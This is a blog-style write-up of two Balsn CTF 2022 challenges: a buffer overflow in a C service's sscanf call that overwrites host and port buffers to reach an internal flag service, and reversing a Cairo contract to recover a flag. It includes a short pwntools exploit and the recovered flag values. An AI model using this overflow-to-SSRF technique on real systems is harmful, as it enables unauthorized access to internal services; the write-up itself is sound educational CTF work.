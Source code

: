 ```yaml
---
layout: post
title:  "Balsn CTF 2022 Writeup"
date:   2022-09-09
categories: ctf
description: from reversing cairo bytecode to buffer overflow lead to ssrf
tags: CTF
---
```


<img src="/images/balsnctf2022/logo.png" />

I played balsnCTF last week and solve several challenge, in this post I will only cover 
Pwn and smartcontract challenge

List Challenge:
<ul>
    <h3>PWN</h3>
    <li>Flag Market 1</li>
    <h3>SmartContract</h3>
    <li>Cairo Reverse</li>
</ul>


# Flag Market 1
<pre>
Do you love flags?
Try to buy some!
nc flag-market-us.balsnctf.com 19091 or
nc flag-market-sin.balsnctf.com 19091 or
nc flag-market-uk.balsnctf.com 19091

Note: Distributed file is in challenge Flag Market 1
https://balsnctf-challenges-2022.s3.amazonaws.com/flag_market_1/234b79b0adee52c9402019214038dce9.zip
</pre>

### Identify The Vulnerability

We were given several files, from docker file to source code and a Makefile

first I started check the `flag_market.c` which I found a buffer overflow vulnerability on `connection_handler`

{% highlight C %}
void connection_handler(int sock_fd)
{
    char request[MAX_REQ_BUF] = {};
    char method[MAX_BUF] = {};
    char path[MAX_BUF] = {};
    char port[MAX_BUF] = {};
    char host[MAX_BUF] = {};
    size_t n = 0;
    size_t reqLen = 0;

    connection_sock = sock_fd;
    signal(SIGALRM, exception_handler);
    signal(SIGABRT, exception_handler);
    alarm(TIMEOUT);

    snprintf(host, MAX_BUF, "%s", BK_HOST);
    snprintf(port, MAX_BUF, "%d", BK_PORT);

    reqLen = read_input(sock_fd, request, MAX_REQ_BUF);

    n = sscanf(request, "%s /%s HTTP/1.1", method, path); 
    if (n != 2)
        snprintf(path, MAX_BUF, "500");

    route(sock_fd, host, port, method, path, reqLen, request);

    close(sock_fd);
    exit(0);
}
{% endhighlight %}

the `sscanf()` can trigger buffer overflow since the buffer size of `request` is larger than `method` and `path` buffer, and there's no check or limitation so all the data from `request` will copied to `method` and `path` buffer 

{% highlight c %}
#define MAX_BUF 384
#define MAX_REQ_BUF 1024
{% endhighlight %}

in this situation we can overflow the buffer and overwrite the `host` and `port` which can lead to ssrf vulnerability.

next, I found that our goal is to access webservice on port `31337`
{% highlight xinetd %}
service backend-flag1
{
        disable = no
        type = UNLISTED
        wait = no
        server = /backend/run_flag1.sh
        socket_type = stream
        protocol = tcp
        user = backend
	port = 31337
        flags = IPv4 REUSE
        per_source = 5
        rlimit_cpu = 3
	rlimit_as = 64M
        nice = 18
}

{% endhighlight %}

which allow us to read our flag

{% highlight sh %}
#!/bin/bash

echo $FLAG1
{% endhighlight %}

### Setup debugging environment

in order to debug the binary, I edit a few things on `docker-compose-chal.yml`

{% highlight config %}
version: "3.5"
services:
    flag_market:
        build:
            context: ./
            dockerfile: flag_market.Dockerfile
        ports:
            - "${CHAL_PORT}:19091/tcp"

        networks:
            - flag_market_network
        security_opt:               # start changed line
            - seccomp:unconfined    # 
        cap_add:                    # 
            - SYS_PTRACE            # end of changed line

networks:
    flag_market_network:
        external: true

# CHAL_PORT=13337 docker-compose -f ./docker-compose-chal.yml -p flag_market_13337 up -d
{% endhighlight %}

next, run `deploy.sh` to install and deploy the challenge on local machine.
after `deploy.sh` executed we should have a service running on the port `13337`

<img src="/images/balsnctf2022/idle.png"/>

now, we need to install gdb on the docker container by running these command 

{% highlight sh %}
sudo docker exec -it --workdir /root --user root  flag_market_flag_market_1 bash
apt install gdb
{% endhighlight %}

so we can debug the binary on the docker it self by attaching the PID process using gdb


<img src="/images/balsnctf2022/gdb1.png"/>

now we can set breakpoint `b* route+1152`so we can determine the offset to overwrite the port and host  

<img src="/images/balsnctf2022/gdb2.png"/>

after setting up the breakpoint, we can use `pattern create` from gdb-gef to determine how long exactly to overwrite the `port` buffer and allow us to perform ssrf via buffer overflow

<img src="/images/balsnctf2022/gdb3.png"/>

as you can see from the screenshot above, we can overwrite the `port` buffer using 768 byte padding
and overwrite it with `31337` so we can access internal website. here is my exploit to perform ssrf via buffer overflow

{% highlight python %}
from pwn import *
r = remote("localhost",13337)

def solve_flag1():
    off2setPort = 768
    p = "A" * off2setPort
    p += "31337"
    r.sendline(p)    
    r.interactive()

solve_flag1()
{% endhighlight %}

# Cairo Reverse

<pre>
Simple cairo reverse

starknet-compile 0.9.1

https://balsnctf-challenges-2022.s3.amazonaws.com/cairo-reverse/1912abefd6b99c40e35a2bdaaa6f7fb2.zip
Author: ysc
</pre>

### Analysis the smartcontract file

after analysis I found that we have to reveal the censored value from contract.cairo file
{% highlight cairo %}
# Declare this file as a StarkNet contract.
%lang starknet

from starkware.cairo.common.cairo_builtins import HashBuiltin

@view
func get_flag{
    syscall_ptr : felt*,
    pedersen_ptr : HashBuiltin*,
    range_check_ptr,
}(t:felt) -> (res : felt):
    if t == /* CENSORED */:
        return (res=0x42414c534e7b6f032fa620b5c520ff47733c3723ebc79890c26af4 + t*t)
    else:
        return(res=0)
    end
end
{% endhighlight %}

I use thoth to decompile the compiled json file, Thoth (pronounced "toss") is a Cairo/Starknet analyzer, disassembler & decompiler written in Python 3. Thoth's features also include the generation of the call graph and control-flow graph (CFG) of a given Cairo/Starknet compilation artifact. you can install thoth by running these command

{% highlight sh %}
sudo apt install graphviz
git clone https://github.com/FuzzingLabs/thoth && cd thoth
pip install .
thoth -h
{% endhighlight %}

after analysis the cairo bytecode and reading the `get_flag()` function, I found the secret value 

<img src="/images/balsnctf2022/cairo1.png"/>

now we can replicate the smartcontract source code using python to get the flag

{% highlight python %}
>>> hex(0x42414c534e7b6f032fa620b5c520ff47733c3723ebc79890c26af4 + 0x1d6e61c2969f782ede8c3 * 0x1d6e61c2969f782ede8c3)
'0x42414c534e7b726561645f646174615f66726f6d5f636169726f7d'
>>> print(bytes.fromhex('42414c534e7b726561645f646174615f66726f6d5f636169726f7d').decode('utf-8'))
BALSN{read_data_from_cairo}
{% endhighlight %}


